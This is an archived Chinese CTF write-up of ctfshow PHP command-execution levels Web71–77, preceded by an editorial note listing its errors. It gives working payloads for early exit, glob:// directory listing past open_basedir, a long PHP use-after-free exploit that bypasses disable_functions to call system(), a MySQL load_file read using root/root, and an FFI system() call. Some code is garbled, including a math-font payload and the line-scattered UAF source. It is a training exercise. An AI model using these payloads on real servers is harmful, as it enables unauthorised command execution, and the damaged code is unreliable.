# ctfshow web入门 命令执行4

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：ctfshow PHP靶场
- 文献类型：CTF题解Web71–77
- 版本、权限及部署边界：依各关PHP/disable_functions/open_basedir/FFI及MySQL同主机FILE权限；UAF限特定PHP Unix构建
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 第二个Web72应核是否73，缺关卡编号；glob列目录与open_basedir文件读取、禁scandir与include是不同机制不能合并
2. DirectoryIterator载荷被数学字体/丢$毁坏，长UAF源码全散行无围栏，原始作者/版本/CVE未标，不把通用PHP7.4当皆可UAF
3. UAF硬编码对象布局和ELF读取需特定版本/架构；记录未执行且不提供修正实现
4. PDO读取文件需DB账户FILE权限、secure_file_priv与数据库本机可见同路径，root/root仅靶场，不因information_schema默认就可读
5. FFI需扩展加载且ffi.enable允许请求上下文，PHP7.4存在API不足以直接可用；有写1.txt副作用
6. exit前输出flush依缓冲处理，ctfshow内exit使外ob_end_flush不可达；保留失败UAF与后续替代路径但不泛化
7. 只有CSDN文章名无链接和大量未视检截图，需完整环境/源码

### 操作风险

FFI需扩展加载且ffi.enable允许请求上下文，PHP7.4存在API不足以直接可用；有写1.txt副作用

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

zoe
                    zoe  哦0吼   2026-02-12 02:10  
  
Web71  
  
没有源码了，警告了一堆啥，题目有下载源码，先看看源码  
  
  
  
  
  
可以发现，执行完eval函数后   
  
$s = ob_get_contents(); //捕获eval执行后的所有输出内容（输出缓冲区）  
  
   
ob_end_clean(); echo preg_replace("/[0-9]|[a-z]/i","?",$s);  
  
// 清空输出缓冲区，不直接显示原始内容。把所有数字、大小写字母替换成?，再输出   
  
   
  
那么我们可以在eval执行后提前截断，使它不执行后面代码  
  
可以用exit() die()  
  
c=include('/flag.txt');exit();  
  
  
  
Web72  
  
查看根目录发现warning  
  
发现open_basedir限制了读取，这里只允许访问 /var/www/html/ 目录。  
  
  
  
不太会，看来其他师傅的操作  
  
ctfshow web入门--命令执行_ctfshow web入门命令执行-CSDN博客  
  
可以利用glob伪协议，glob伪协议在筛选目录时不受open_basedir制约。  
  
  
  
c=  
𝑎  
=  
𝑛𝑒𝑤𝐷𝑖𝑟𝑒𝑐𝑡𝑜𝑟𝑦𝐼𝑡𝑒𝑟𝑎𝑡𝑜𝑟  
("  
𝑔𝑙𝑜𝑏  
:///  
∗  
");  
𝑓𝑜𝑟𝑒𝑎𝑐ℎ  
(  
  
a as f)  
    
{  
        
echo(  
  
f->__toString().' ');  
  
}  
  
exit(0);  
  
   
  
或者：  
  
c=$a=opendir("glob:///*");while(($file = readdir($a)) !== false){echo $file . "            
  
";};exit();  
  
  
  
可以知道了flag应该在flag0.txt里面，那么需要绕过安全限制可以用UAF漏洞利用代码  
  
注意要进行编码  
  
脚本  
  
function ctfshow($cmd) {  
  
      
global  
   
$abc, $helper, $backtrace;  
  
      
class  
   
Vuln {  
  
          
public  
   
$a;  
  
          
public  
   
function __destruct() {  
  
              
global  
   
$backtrace;  
  
              
unset($this->a);  
  
              
$backtrace  
   
= (new Exception)->getTrace();  
  
              
if(!isset($backtrace[1]['args']))  
   
{  
  
                  
$backtrace  
   
= debug_backtrace();  
  
              
}  
  
          
}  
  
      
}  
  
      
class  
   
Helper {  
  
          
public  
   
$a, $b, $c, $d;  
  
      
}  
  
      
function  
   
str2ptr(&$str, $p = 0, $s = 8) {  
  
          
$address  
   
= 0;  
  
          
for($j  
   
= $s-1; $j >= 0; $j--) {  
  
              
$address  
   
<<= 8;  
  
              
$address  
   
|= ord($str[$p+$j]);  
  
          
}  
  
          
return  
   
$address;  
  
      
}  
  
      
function  
   
ptr2str($ptr, $m = 8) {  
  
          
$out  
   
= "";  
  
          
for  
   
($i=0; $i < $m; $i++) {  
  
              
$out  
   
.= sprintf("%c",($ptr & 0xff));  
  
              
$ptr  
   
>>= 8;  
  
          
}  
  
          
return  
   
$out;  
  
      
}  
  
      
function  
   
write(&$str, $p, $v, $n = 8) {  
  
          
$i  
   
= 0;  
  
          
for($i  
   
= 0; $i < $n; $i++) {  
  
              
$str[$p  
   
+ $i] = sprintf("%c",($v & 0xff));  
  
              
$v  
   
>>= 8;  
  
          
}  
  
      
}  
  
      
function  
   
leak($addr, $p = 0, $s = 8) {  
  
          
global  
   
$abc, $helper;  
  
          
write($abc,  
   
0x68, $addr + $p - 0x10);  
  
          
$leak  
   
= strlen($helper->a);  
  
          
if($s  
   
!= 8) { $leak %= 2 << ($s * 8) - 1; }  
  
          
return  
   
$leak;  
  
      
}  
  
      
function  
   
parse_elf($base) {  
  
          
$e_type  
   
= leak($base, 0x10, 2);  
  
          
$e_phoff  
   
= leak($base, 0x20);  
  
          
$e_phentsize  
   
= leak($base, 0x36, 2);  
  
          
$e_phnum  
   
= leak($base, 0x38, 2);  
  
          
for($i  
   
= 0; $i < $e_phnum; $i++) {  
  
              
$header  
   
= $base + $e_phoff + $i * $e_phentsize;  
  
              
$p_type  
    
=  
   
leak($header, 0, 4);  
  
              
$p_flags  
   
= leak($header, 4, 4);  
  
              
$p_vaddr  
   
= leak($header, 0x10);  
  
              
$p_memsz  
   
= leak($header, 0x28);  
  
              
if($p_type  
   
== 1 && $p_flags == 6) {  
  
                  
$data_addr  
   
= $e_type == 2 ? $p_vaddr : $base + $p_vaddr;  
  
                  
$data_size  
   
= $p_memsz;  
  
              
}  
   
else if($p_type == 1 && $p_flags == 5) {  
  
                  
$text_size  
   
= $p_memsz;  
  
              
}  
  
          
}  
  
          
if(!$data_addr  
   
|| !$text_size || !$data_size)  
  
              
return  
   
false;  
  
          
return  
   
[$data_addr, $text_size, $data_size];  
  
      
}  
  
      
function  
   
get_basic_funcs($base, $elf) {  
  
          
list($data_addr,  
   
$text_size, $data_size) = $elf;  
  
          
for($i  
   
= 0; $i < $data_size / 8; $i++) {  
  
              
$leak  
   
= leak($data_addr, $i * 8);  
  
              
if($leak  
   
- $base > 0 && $leak - $base < $data_addr - $base) {  
  
                  
$deref  
   
= leak($leak);  
  
                  
if($deref  
   
!= 0x746e6174736e6f63)  
  
                      
continue;  
  
              
}  
   
else continue;  
  
              
$leak  
   
= leak($data_addr, ($i + 4) * 8);  
  
              
if($leak  
   
- $base > 0 && $leak - $base < $data_addr - $base) {  
  
                  
$deref  
   
= leak($leak);  
  
                  
if($deref  
   
!= 0x786568326e6962)  
  
                      
continue;  
  
              
}  
   
else continue;  
  
              
return  
   
$data_addr + $i * 8;  
  
          
}  
  
      
}  
  
      
function  
   
get_binary_base($binary_leak) {  
  
          
$base  
   
= 0;  
  
          
$start  
   
= $binary_leak & 0xfffffffffffff000;  
  
          
for($i  
   
= 0; $i < 0x1000; $i++) {  
  
              
$addr  
   
= $start - 0x1000 * $i;  
  
              
$leak  
   
= leak($addr, 0, 7);  
  
              
if($leak  
   
== 0x10102464c457f) {  
  
                  
return  
   
$addr;  
  
              
}  
  
          
}  
  
      
}  
  
      
function  
   
get_system($basic_funcs) {  
  
          
$addr  
   
= $basic_funcs;  
  
          
do  
   
{  
  
              
$f_entry  
   
= leak($addr);  
  
              
$f_name  
   
= leak($f_entry, 0, 6);  
  
              
if($f_name  
   
== 0x6d6574737973) {  
  
                  
return  
   
leak($addr + 8);  
  
              
}  
  
              
$addr  
   
+= 0x20;  
  
          
}  
   
while($f_entry != 0);  
  
          
return  
   
false;  
  
      
}  
  
      
function  
   
trigger_uaf($arg) {  
  
          
$arg  
   
= str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');  
  
          
$vuln  
   
= new Vuln();  
  
          
$vuln->a  
   
= $arg;  
  
      
}  
  
   
  
      
if(stristr(PHP_OS,  
   
'WIN')) {  
  
          
die('This  
   
PoC is for *nix systems only.');  
  
      
}  
  
      
$n_alloc  
   
= 10;  
  
      
$contiguous  
   
= [];  
  
      
for($i  
   
= 0; $i < $n_alloc; $i++)  
  
          
$contiguous[]  
   
= str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');  
  
      
trigger_uaf('x');  
  
      
$abc  
   
= $backtrace[1]['args'][0];  
  
      
$helper  
   
= new Helper;  
  
      
$helper->b  
   
= function ($x) { };  
  
      
if(strlen($abc)  
   
== 79 || strlen($abc) == 0) {  
  
          
die("UAF  
   
failed");  
  
      
}  
  
      
$closure_handlers  
   
= str2ptr($abc, 0);  
  
      
$php_heap  
   
= str2ptr($abc, 0x58);  
  
      
$abc_addr  
   
= $php_heap - 0xc8;  
  
      
write($abc,  
   
0x60, 2);  
  
      
write($abc,  
   
0x70, 6);  
  
      
write($abc,  
   
0x10, $abc_addr + 0x60);  
  
      
write($abc,  
   
0x18, 0xa);  
  
      
$closure_obj  
   
= str2ptr($abc, 0x20);  
  
      
$binary_leak  
   
= leak($closure_handlers, 8);  
  
      
if(!($base  
   
= get_binary_base($binary_leak))) {  
  
          
die("Couldn't  
   
determine binary base address");  
  
      
}  
  
      
if(!($elf  
   
= parse_elf($base))) {  
  
          
die("Couldn't  
   
parse ELF header");  
  
      
}  
  
      
if(!($basic_funcs  
   
= get_basic_funcs($base, $elf))) {  
  
          
die("Couldn't  
   
get basic_functions address");  
  
      
}  
  
      
if(!($zif_system  
   
= get_system($basic_funcs))) {  
  
          
die("Couldn't  
   
get zif_system address");  
  
      
}  
  
      
$fake_obj_offset  
   
= 0xd0;  
  
      
for($i  
   
= 0; $i < 0x110; $i += 8) {  
  
          
write($abc,  
   
$fake_obj_offset + $i, leak($closure_obj, $i));  
  
      
}  
  
      
write($abc,  
   
0x20, $abc_addr + $fake_obj_offset);  
  
      
write($abc,  
   
0xd0 + 0x38, 1, 4);  
  
      
write($abc,  
   
0xd0 + 0x68, $zif_system);  
  
      
($helper->b)($cmd);  
  
      
exit();  
  
}  
  
ctfshow("cat /flag0.txt");ob_end_flush();  
  
   
  
  
  
Web72  
  
这一关没给源码，先看看能看根目录吗  
  
c=var_export(scandir('/'));exit();  
  
发现可以，并且存在flagc.txt文件  
  
  
  
c=include('/flagc.txt');exit();  
  
   
  
  
  
Web74  
  
查看根目录发现有安全保护  
  
还是尝试用glob伪协议读取  
  
c=$a=opendir("glob:///*");while(($file = readdir($a)) !== false){echo $file . "            
  
";};exit();  
  
发现flagx.txt  
  
  
  
c=include('/flagx.txt');exit();得到flag  
    
(注意：PHP 的安全限制是精准禁用单个高危函数，而非禁用所有文件操作，这题应该是scandir（目录遍历）被禁，include（文件引入）未被禁。)  
  
  
  
Web75  
  
同样操作得到flag36.txt  
  
  
  
Include读文件又有安全机制了，那么uaf还能用吗，发现不成了  
  
看了网上很多师傅的  
  
是通过PDO连接数据库information_schema(默认数据库)  
  
  
  
  
  
c=try {$dbh = new PDO('mysql:host=localhost;dbname=information_schema', 'root',  
  
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)  
  
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-  
  
>getMessage();exit(0);}exit(0);  
  
   
  
  
  
Web76  
  
与上一关一样  
  
  
  
  
  
Web77  
  
  
  
用上一关不行  
  
提示说php7.4  
  
可以用FFI  
  
FFI可以方便的调用C语言写的各种库。  
  
通过FFI，可以实现调用system函数，从而将flag直接写入一个新建的文本文件中，然后访问这个文本文件，获得flag  
  
c=$ffi = FFI::cdef("int system(const char* command);");  
  
$a='/readflag > 1.txt';   
  
$ffi->system($a);   
  
exit();  
  
  
  

---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
